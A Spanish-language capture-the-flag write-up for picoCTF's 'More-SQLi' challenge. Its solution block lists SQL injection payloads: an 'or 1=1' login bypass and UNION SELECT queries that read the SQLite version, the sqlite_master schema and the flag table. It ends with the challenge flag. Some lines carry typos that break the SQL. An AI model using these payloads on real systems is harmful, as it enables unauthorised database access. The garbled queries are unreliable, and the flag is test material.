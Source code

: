 

## More-SQLi
¿Puedes encontrar la bandera en este sitio web?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.



Hints:
1. SQLiLite
2. 




## Solución
```
nombre de usuario: juan' o 1=1;
contraseña: juan
Consulta SQL: SELECT id FROM users WHERE password = 'juan' AND username = 'juan' or 1=1;'
Aquí es al reves debemos ingorar de and para delante


Primer inyección

Buscar un nombre 
' union select 1,2;3;  -Para ver que tiene la base de datos
' union select sqlite_versiones,2;3;
' union sql,2,3 from sqlite_master;

' union select id,flag,3 from more_table'

;Nombre de la tabla





Primera parte:
Con esta solución
'or 1=1;--
'123'

Y luego al revez
'123'
'or 1=1;--


Parte 2:
123' UNION SELECT 1, sqlite_version(), 3;--

Parte 3:
123' UNION SELECT name, sql, null from sqlite_master;--


Bandera:
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}



Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}



```
